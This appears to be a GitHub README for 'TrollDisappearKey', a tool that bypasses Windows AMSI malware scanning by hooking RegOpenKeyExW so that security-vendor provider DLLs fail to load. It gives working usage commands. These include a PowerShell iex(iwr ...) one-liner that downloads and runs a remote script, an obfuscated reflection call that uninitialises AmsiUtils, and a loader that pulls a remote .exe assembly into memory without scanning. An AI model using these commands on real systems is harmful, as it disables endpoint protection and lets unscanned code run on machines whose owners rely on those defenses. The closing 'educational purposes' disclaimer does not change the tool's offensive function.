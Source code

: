 ## UPDATES
```diff
! UPDATE 26/05/2025
! Added a counter for the .cs/.ps1 files so that after it has completed the redirection of "Software\Microsoft\AMSI\Providers", it will unhook RegOpenKeyExW
! This is to remove the overhead introduced by hooking every RegOpenKeyExW call and causing problems when RegOpenKeyExW is legitimately invoked
! For the powershell reflective loading and .ps1 script, MAKE SURE the process has fully loaded, can run some arbitrary commands first..
```

# TrollDisappearKey
_bypass clr amsi_
<b><u>underlined text</u></b>
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load to bypass powershell amsi \
TrollDisappearKeyPS.ps1 -> copy paste into powershell (likely to get flagged) 

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 


## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## .powershell Usage (does not require admin)

```
##For PS Script
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.ps1 -UseBasicParsing).content

##For PS dll reflective after dl to disk
$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.cs -UseBasicParsing).content
Add-Type $code
[TrollDisappearKeyPS]::DisappearKey()
([Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s")).GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize).Invoke($object,$null)
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







